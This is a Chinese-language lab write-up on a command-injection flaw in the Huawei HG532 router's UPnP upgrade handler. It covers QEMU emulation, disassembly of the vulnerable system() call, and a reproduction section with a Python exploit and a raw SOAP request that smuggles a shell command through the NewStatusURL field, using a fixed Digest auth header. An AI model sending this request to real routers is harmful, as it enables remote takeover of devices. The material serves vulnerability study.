





# HG532_upnp


# qemu-system模拟



start.sh
```
#!/bin/sh

sudo tunctl -t tap0 
sudo ifconfig tap0 192.168.0.2/24 up
sudo qemu-system-mips -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -nographic -net nic -net tap,ifname=tap0,script=no,downscript=no

```


```

配置网络
ifconfig eth0 192.168.0.1/24 up

传输文件系统
tar -zcvf sq.tar squashfs-root/
scp sq.tar root@192.168.0.1:/tmp/
tar -zxvf sq.tar


挂载，切换工作目录

mount -o bind /dev ./squashfs-root/dev
mount -t proc /proc ./squashfs-root/proc
chroot squashfs-root sh


先链接ssh，启动服务，因为启动服务后，ip地址会发生变化


启动服务
ssh root@192.168.0.1
chroot squashfs-root /bin/sh
./bin/upnp
./bin/mic

```


启动服务后，ip发生了变化，为了能让外界访问，修改br0和eth0的ip


```
ifconfig eth0 192.168.0.1/24 up 
ifconfig br0 192.168.0.3/24 up
```


成功修改后，需要修改tls的选项，才能正常访问。


这里我最后修改了一次地址，现在地址为
```
qemu：10.10.10.2
本机：10.10.10.1

```



账号密码
admin     @Hua1234

---
# 漏洞分析
upnp程序中，搜索字符串NewStatusURL


这里获取"NewStatusURL"后，格式化字符串后，system命令执行。


分析下汇编
```
                 
                             FUN_0040749c
        0040749c 3c 1c 00 43     lui        gp,0x43
             assume gp = <UNKNOWN>
        004074a0 27 bd fb c8     addiu      sp,sp,-0x438
        004074a4 27 9c e4 70     addiu      gp,gp,-0x1b90               //开栈
        004074a8 af bf 04 34     sw         ra,local_4(sp)
        004074ac af b1 04 30     sw         s1,local_8(sp)
        004074b0 af b0 04 2c     sw         s0,local_c(sp)
        004074b4 af bc 00 18     sw         gp=>_gp,local_420(sp)         //储存环境变量
        004074b8 8f 99 80 f4     lw         t9,-0x7f0c(gp)=>->ATP_XML_GetChildNodeByName     = 00409f40
        004074bc 00 80 80 21     move       s0,a0
        004074c0 8c 84 00 2c     lw         a0,0x2c(a0)
        004074c4 3c 05 00 41     lui        a1,0x41
        004074c8 24 a5 4c 40     addiu      a1=>s_NewDownloadURL_00414c40,a1,0x4c40          = "NewDownloadURL"
        004074cc 00 00 30 21     clear      a2
        004074d0 03 20 f8 09     jalr       t9=>ATP_XML_GetChildNodeByName           // ATP_XML_GetChildNodeByName((param_1 + 0x2c),"NewDownloadURL",0,&local_418)
        004074d4 27 a7 00 20     _addiu     a3,sp,0x20                               //mips流水线机制，jalr跳转，也会先执行下面一条汇编
        004074d8 8f bc 00 18     lw         gp,local_420(sp)
        004074dc 14 40 00 21     bne        v0,zero,LAB_00407564                    //返回值不为0,跳转到LAB_00407564
        004074e0 00 40 88 21     _move      s1,v0
        004074e4 8f a2 00 20     lw         v0,local_418(sp)
        004074e8 00 00 00 00     nop
        004074ec 10 40 00 1d     beq        v0,zero,LAB_00407564                    //local_418(sp)不等于跳转到LAB_00407564
        004074f0 3c 05 00 41     _lui       a1,0x41
        004074f4 8f 99 80 f4     lw         t9,-0x7f0c(gp)=>->ATP_XML_GetChildNodeByName     = 00409f40
        004074f8 8e 04 00 2c     lw         a0,0x2c(s0)
        004074fc 24 a5 4c 50     addiu      a1=>s_NewStatusURL_00414c50,a1,0x4c50            = "NewStatusURL"
        00407500 00 00 30 21     clear      a2
        00407504 03 20 f8 09     jalr       t9=>ATP_XML_GetChildNodeByName    //ATP_XML_GetChildNodeByName=(*(undefined4 *)(param_1 +0x2c),"NewStatusURL",0,&local_414)                                                                 
        00407508 27 a7 00 24     _addiu     a3,sp,0x24
        0040750c 8f bc 00 18     lw         gp,local_420(sp)
        00407510 14 40 00 14     bne        v0,zero,LAB_00407564
        00407514 00 40 88 21     _move      s1,v0
        00407518 8f a2 00 24     lw         v0,local_414(sp)
        0040751c 00 00 00 00     nop
        00407520 10 40 00 10     beq        v0,zero,LAB_00407564
        00407524 27 b0 00 28     _addiu     s0,sp,0x28
        00407528 8f 99 82 84     lw         t9,-0x7d7c(gp)=>-><EXTERNAL>::snprintf           = 00413da0
        0040752c 8f a7 00 20     lw         a3,local_418(sp)
        00407530 3c 06 00 41     lui        a2,0x41
        00407534 24 c6 4c 60     addiu      a2=>s_upg_-g_-U_%s_-t_'1_Firmware_Upgr_00414c6   = "upg -g -U %s -t '1 Firmware U
        00407538 02 00 20 21     move       a0,s0
        0040753c 24 05 04 00     li         a1,0x400
        00407540 03 20 f8 09     jalr       t9=><EXTERNAL>::snprintf   //snprintf(acStack_410,0x400,"upg -g -U %s -t \'1 Firmware Upgrade Image\' -c upnp -r %s -d -b",
               local_418,local_414);
               mips超过4个参数，后面的参数用寄存器传参

        00407544 af a2 00 10     _sw        v0,local_428(sp)
        00407548 8f bc 00 18     lw         gp,local_420(sp)
        0040754c 00 00 00 00     nop
        00407550 8f 99 83 34     lw         t9,-0x7ccc(gp)=>-><EXTERNAL>::system             = 00413c00
        00407554 00 00 00 00     nop
        00407558 03 20 f8 09     jalr       t9=><EXTERNAL>::system            //system(acStack_410)
        0040755c 02 00 20 21     _move      a0,s0
        00407560 8f bc 00 18     lw         gp,local_420(sp)

```

```

int FUN_0040749c(int param_1)

{
  int iVar1;
  int iStack_418;
  int iStack_414;
  char acStack_410 [1028];
  
  iVar1 = ATP_XML_GetChildNodeByName(*(undefined4 *)(param_1 + 0x2c),"NewDownloadURL",0,&iStack_418)
  ;
  if (((iVar1 == 0) && (iStack_418 != 0)) &&
     (iVar1 = ATP_XML_GetChildNodeByName
                        (*(undefined4 *)(param_1 + 0x2c),"NewStatusURL",0,&iStack_414), iVar1 == 0))
  {
    if (iStack_414 != 0) {
      snprintf(acStack_410,0x400,"upg -g -U %s -t \'1 Firmware Upgrade Image\' -c upnp -r %s -d -b",
               iStack_418,iStack_414);
      system(acStack_410);
    }
  }
  return iVar1;
}


```
分析一下ATP_XML_GetChildNodeByName这个函数，看他参数如何传递进来的

```
int __fastcall ATP_XML_GetChildNodeByName(int a1, int a2, int *a3, _DWORD *a4)

a1: 可能是指向 XML 节点的指针或句柄。
a2: 要查找的子节点的名称。
a3: 指向整数的指针，用于存储找到的子节点的句柄或指针。
a4: 指向 _DWORD 的指针，可能用于存储额外的数据，如节点的值或属性。

```
这个函数通过遍历 XML 树来查找具有特定名称的子节点。它处理 XML 节点的获取和值的提取，并根据找到的信息设置输出参数。这个函数可能是一个 XML 解析库的一部分，用于在嵌入式系统或特定应用程序中解析和处理 XML 数据。

这里a1: 可能是指向 XML 节点的指针或句柄。我们继续溯源a1




---.
# 漏洞复现

exp
```
import requests 
headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;mkdir /bin/hell;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://10.10.10.2:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

请求包exp
```
POST /ctrlt/DeviceUpgrade_1 HTTP/1.1
Host: 10.10.10.2:37215
Authorization: Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669
Content-Type: application/soap+xml; charset="utf-8"
Content-Length: [length of the data]

<?xml version="1.0" ?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> 
 <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
  <NewStatusURL>;mkdir /bin/hell;</NewStatusURL>
  <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
 </u:Upgrade>
</s:Body>
</s:Envelope>
```


